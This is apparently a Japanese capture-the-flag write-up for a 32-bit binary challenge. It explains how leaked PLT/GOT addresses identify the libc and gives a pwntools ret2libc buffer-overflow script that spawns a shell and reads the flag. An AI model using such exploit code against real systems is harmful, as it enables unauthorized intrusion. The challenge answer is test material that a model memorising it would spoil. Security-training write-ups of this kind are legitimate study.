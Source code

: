 ## Here are GOT and PLT (435pt / 14 solves) [★★★☆]
> シェルを起動し、フラグを取得してください。
> 
> **ASLR は有効になっています。**
> 
> 
> 本問題のターゲットマシンを起動してください。起動が完了したら、VPN接続マシンまたはBrowser Kaliから `nc <ターゲットのIP> 8108` コマンドで接続してください。
> 
> 
> 問題ファイルをダウンロード: gotplt.zip
> 
> ZIPのハッシュ値(SHA256): `e750fa4419eb54468e4554bca39d07a67d7ab3c96f02afa9bb51031ff610de1a`

こちらもなんとソースコード無し。挙動を知るべくバイナリを実行してみる。
```
This is my .plt section (virtual address: 0x8049020, size: 0xe0)
08049020: ff 35 (f8 bf 04 08) ff 25 fc bf 04 08 00 00 00 00
08049030: ff 25 (00 c0 04 08) 68 00 00 00 00 e9 e0 ff ff ff
08049040: ff 25 (04 c0 04 08) 68 08 00 00 00 e9 d0 ff ff ff
08049050: ff 25 (08 c0 04 08) 68 10 00 00 00 e9 c0 ff ff ff
08049060: ff 25 (0c c0 04 08) 68 18 00 00 00 e9 b0 ff ff ff
08049070: ff 25 (10 c0 04 08) 68 20 00 00 00 e9 a0 ff ff ff
08049080: ff 25 (14 c0 04 08) 68 28 00 00 00 e9 90 ff ff ff
08049090: ff 25 (18 c0 04 08) 68 30 00 00 00 e9 80 ff ff ff
080490a0: ff 25 (1c c0 04 08) 68 38 00 00 00 e9 70 ff ff ff
080490b0: ff 25 (20 c0 04 08) 68 40 00 00 00 e9 60 ff ff ff
080490c0: ff 25 (24 c0 04 08) 68 48 00 00 00 e9 50 ff ff ff
080490d0: ff 25 (28 c0 04 08) 68 50 00 00 00 e9 40 ff ff ff
080490e0: ff 25 (2c c0 04 08) 68 58 00 00 00 e9 30 ff ff ff
080490f0: ff 25 (30 c0 04 08) 68 60 00 00 00 e9 20 ff ff ff

This is my .got.plt section (virtual address: 0x804bff4, size: 0x40)
0804bff4: (08 bf 04 08) (40 da fd f7) (80 8f fb f7) (d0 21 ef f7)
0804c004: (60 55 d8 f7) (20 b5 db f7) (66 90 04 08) (f0 c6 e6 f7)
0804c014: (86 90 04 08) (96 90 04 08) (30 c0 e6 f7) (80 de e7 f7)
0804c024: (c6 90 04 08) (10 86 dd f7) (f0 df e7 f7) (10 d2 e6 f7)

I'll even show some function address!
- munmap() addr is 80490e0
- open() addr is 80490a0
(Note: The above GOT dump is taken after these functions are called at least one time

Now, let's exploit!
Name?
```

`Now, let's exploit!`までがざっと表示された後、`Name?`で入力を求められるようになっている。恐らくBoFでのシェル起動が本問題の目的であると思われるが、`system()`を呼び出すためにはまずlibcのベースアドレスを知る必要があるのに加え、この問題ではlibcが配布されておらず、使われているlibcの特定もしなければならない。  
普通の問題なら`puts()`などでlibcのアドレスをリークさせる手段が良く用いられているが、今回はありがたいことにPLTとGOTの一部に加え、`munmap@plt`と`open@plt`を教えてくれているため、これを利用させてもらう。なお、PLT・GOTについての解説は[ここ](https://keichi.dev/post/plt-and-got/)とかが参考になった。
```
$ objdump -d -M intel ./vuln | grep 80490e0
080490e0 <munmap@plt>:
 80490e0:       ff 25 2c c0 04 08       jmp    DWORD PTR ds:0x804c02c
 80495cf:       e8 0c fb ff ff          call   80490e0 <munmap@plt>
 80496bd:       68 e0 90 04 08          push   0x80490e0
```

与えられる情報をそのまま利用しても良いが、ここでは分かりやすさのため`objdump`を使う。`munmap()`の実際の関数アドレスは`0x804c02c`にセットされることが分かるので、上で言うところの`f0 df e7 f7`が関数アドレスになる。（リトルエンディアンに注意）同様に`open()`の関数アドレスも分かるので、この2つのアドレスの下2, 3桁を[このサイト](https://libc.blukat.me)に使って、libcの種類を特定する。  
ただし、関数アドレス特定の作業は**必ず本番環境で行う**こと。ローカル上で行っても遠回しに`ldd`しているだけになってしまう。

↓こんな感じに使う
<img src="images/image01.png" width="80%"></img>

今回の攻撃では`libc6_2.39-0ubuntu9_i386.so`を使った。これによりlibcのベースアドレスも特定できるようになったので、いよいよ攻撃に移る。ソルバは以下の通り。
```python
from pwn import *

target = './vuln'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

libc = ELF('./libc6_2.39-0ubuntu9_i386.so')
proc = remote('target_ip', 8108)
#libc = ELF('/lib32/libc.so.6')
#proc = process(target)

addr_open = 0
addr_munmap = 0

proc.recvuntil('0804c014: ')
addr_open = proc.recvline()[29:40].decode().replace(' ', '')
addr_open = bytes.fromhex(addr_open)[::-1].hex()
#print(addr_open)

libc_base = int(addr_open, 16) - libc.symbols['open']
addr_system = libc_base + libc.symbols['system']
addr_binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

payload = b'A' * 16
payload += pack(addr_system)
payload += b'A' * 4
payload += pack(addr_binsh)

proc.sendlineafter('Name? ', payload)

proc.interactive()
```

実行するとフラグが得られた。
```
[*] Switching to interactive mode
Nice to meet you, AAAAAAAAAAAAAAAA0\xd4\xd5\xf7AAAA\xe8\x1d\xed\xf7
$ ls
flag.txt
vuln
$ cat flag.txt
flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}
```

### `flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}`